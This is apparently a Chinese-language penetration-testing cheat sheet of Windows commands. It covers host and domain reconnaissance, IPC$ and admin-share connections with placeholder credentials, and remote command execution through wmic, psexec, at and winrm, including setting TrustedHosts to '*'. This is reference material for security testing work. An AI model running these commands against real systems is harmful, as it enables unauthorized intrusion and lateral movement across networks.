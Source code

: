 # 渗透测试—— Windows 系统常用命令

## 0x01 信息收集
### 1.1 本机信息
 - 查看系统信息 ： `systeminfo`
 - 查看进程 ： `tasklist`
 - 查看当前工作目录  : `chdir` 
 - 查看网络会话 ： `netsat -ano`
 - 查看用户： `net user`
 - 查看管理员：`net localgroup administrators `
 - 查看abc用户信息：`net user abc`
 - 查看文件共享：`net use`
 - 查看远程桌面连接历史： `cmdkey /l`
 - 查看杀毒软件 ： `wmic /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe`
### 1.2 域信息
- 查看域：`net view /domain`
- 查看abc域中的主机：`net view /domain:abc` 
- 查看域用户 ：`net user /domain`
- 查看域管理员 ： `net group "domain admin" /domain`
- 查看本机域管理员 ：`net localgroup administrators /domain `

## 0x02 远程文件操作
### net use
前置条件：目标主机开启IPC$共享   
目标主机：192.168.0.1 用户名：abc 密码：password
- 建立空连接: `net use \\192.168.0.1\ipc$ "" /user:"" `
- 建立非空连接: `net use \\192.168.0.1\ipc$ "password" /user:"abc" `
 - 映射默认共享: `net use z: \\192.168.0.1\c$ "password" /user:"abc"`
 - 删除一个ipc$连接： `net use \\192.168.0.1\ipc$ /del`
- 删除映射的z盘: `net use z: /del `

### net share
本机开启共享：   
```
net share c$=c:
net share d$=d:
net share ipc$
net share admin$
```
## 0x03 远程命令执行
### wmic
前置条件：目标开启 "Windows Management Instrumentation" 服务，端口：135   
目标主机：192.168.0.1 用户名：abc 密码：password   
- 执行命令 ： `wmic /node:192.168.0.1 /user:abc /password:password PROCESS call create "calc.exe"`

### psexec

前置条件：目标开启 ADMIN$ 共享   
工具：https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools   
目标主机：192.168.0.1 用户名：abc 密码：password   
- 执行命令(交互式shell) ： psexec \\192.168.0.1 -u abc -p password cmd

### at
前置条件：目标启动 Task Scheduler 服务    
目标主机：192.168.0.1 用户名：abc 密码：password  

- 添加计划任务在远程系统上执行命令: `at \\192.168.0.1:18 cmd.exe /c "ipconfig /all > c:\programdata\error.log"`
- 查看 at 任务列表: `at \\192.168.0.1`
- 删除 at 计划任务: `at \\192.168.17.138 1 /delete`

### winrm
前置条件：目标启动winrm服务，5985、5986端口
目标启动快速启动winrm服务：
```
winrm quickconfig -q
winrm set winrm/config/Client @{TrustedHosts="*"}
```
目标主机：192.168.0.1 用户名：abc 密码：password  
执行命令： `winrs -r:http://192.168.0.1:5985 -u:abc -p:password  "whoami /all"`


## 0x04 权限切换

- 通过abc用户权限启动cmd：
`runas /user:abc cmd`


## ref
- https://chen1sheng.github.io/2020/11/30/%E6%B8%97%E9%80%8F/windows/Windows%E5%9F%9F%E6%B8%97%E9%80%8F%E5%B8%B8%E8%A7%81%E5%91%BD%E4%BB%A4/
- https://www.cnblogs.com/LyShark/p/11344288.html
- https://cloud.tencent.com/developer/article/1180419
